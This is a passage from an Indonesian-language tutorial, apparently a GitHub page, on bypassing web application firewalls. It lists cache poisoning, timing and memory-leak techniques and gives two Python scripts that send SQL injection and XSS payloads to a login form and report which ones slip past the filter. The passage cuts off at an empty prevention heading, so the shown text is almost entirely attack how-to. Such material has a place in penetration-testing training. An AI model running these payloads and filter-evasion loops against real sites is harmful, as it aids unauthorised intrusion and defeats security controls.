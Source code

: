 
## 🔍 3. Side-Channel Exploits for WAF Bypass

- **Cache Poisoning**: Menggunakan cache server untuk menyimpan payload yang tidak difilter.  
- **Timing Attacks**: Menganalisis waktu respon WAF untuk menentukan filter yang aktif.  
- **Memory Leak Exploits**: Mengeksploitasi kebocoran memori dalam WAF untuk melewati deteksi.  

**Contoh Timing Attack untuk Mendeteksi Filter WAF:**  
```python
import time
import requests

payloads = ["' OR '1'='1", "' UNION SELECT NULL, NULL--", "<script>alert(1)</script>"]
target_url = "https://target.com/login"

for payload in payloads:
    start_time = time.time()
    response = requests.post(target_url, data={"username": "admin", "password": payload})
    elapsed_time = time.time() - start_time
    
    print(f"Payload: {payload} - Response Time: {elapsed_time} seconds")
```

---

## 🔗 4. Adaptive Attack Chains

Teknik **Adaptive Attack Chain** memungkinkan serangan menyesuaikan payload berdasarkan respons WAF.  
**Langkah-langkah:**  
1. Kirim payload awal dan analisis respon WAF.  
2. Ubah payload sesuai deteksi WAF.  
3. Kirim payload yang lebih stealth untuk lolos filter.  

**Contoh Adaptive Payload Injection:**  
```python
import requests

payloads = ["' OR '1'='1", "' UNION SELECT NULL, NULL--", "<script>alert(1)</script>"]
target_url = "https://target.com/login"

for payload in payloads:
    response = requests.post(target_url, data={"username": "admin", "password": payload})
    
    if "blocked" in response.text:
        print(f"Payload {payload} ditolak, mencoba varian lain...")
    else:
        print(f"Payload {payload} berhasil lolos!")
```

---

## 🛡️ Cara Pencegahan
